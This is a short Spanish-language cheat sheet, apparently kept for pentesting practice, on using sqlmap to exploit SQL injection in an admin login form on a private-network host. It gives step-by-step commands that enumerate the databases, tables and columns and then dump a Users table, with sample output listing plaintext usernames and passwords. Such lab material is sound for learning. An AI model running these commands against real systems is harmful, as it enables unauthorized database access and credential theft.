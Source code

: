 Herramienta,  que nos permite de forma automatizada realizar una explotación de esta vulnerabilidad y poder acceder a las tablas, columnas y registros de la base de datos objetivo.

Uso para panel de administrador

extraer las bases de datos

```sh fold:"SQLMap descubrir bases de datos"
sqlmap -u http://192.168.1.141/administrator/ --forms --dbs --batch
```
sqlmap -u http://192.168.1.141/administrator/ --forms --dbs --batch
ejemplo de salida:
[*] information_schema                                                                                                  
[*] mysql
[*] performance_schema
[*] Webapp


ahora vamos a conocer las tablas de la base de datos Webapp
sqlmap -u http://192.168.1.141/administrator/ --forms -D Webapp --tables --batch

Ejemplo de salida:
Database: Webapp                                                                                                                                   
[1 table]                                                                                                                                          
+-------+                                                                                                                                          
| Users |
+-------+


Ahora vamos a  sacar las columnas de la tabla Users
sqlmap -u http://192.168.1.141/administrator/ --forms -D Webapp -T Users --columns --batch
Ejemplo de salida:
[3 columns]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| id       | int(6)      |
| password | varchar(32) |
| username | varchar(32) |
+----------+-------------+



Ahora vamos a sacar los registros de las columnas
sqlmap -u http://192.168.1.141/administrator/ --forms -D Webapp -T Users -C username,password --dump --batch
ejemplo de salida:
Database: Webapp
Table: Users
[4 entries]
+----------+--------------+
| username | password     |
+----------+--------------+
| bart     | b4rtp0w4     |
| liam     | liam@nd3rs0n |
| mike     | mikeblabla   |
| peter    | peter123!    |
+----------+--------------+





https://www.youtube.com/watch?v=pF7uz_ptuFc

<iframe width="560" height="315" src="https://www.youtube.com/embed/pF7uz_ptuFc?si=6uzvXvY5-_lbZuaL" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>




https://www.youtube.com/shorts/MQLrXU3KzxU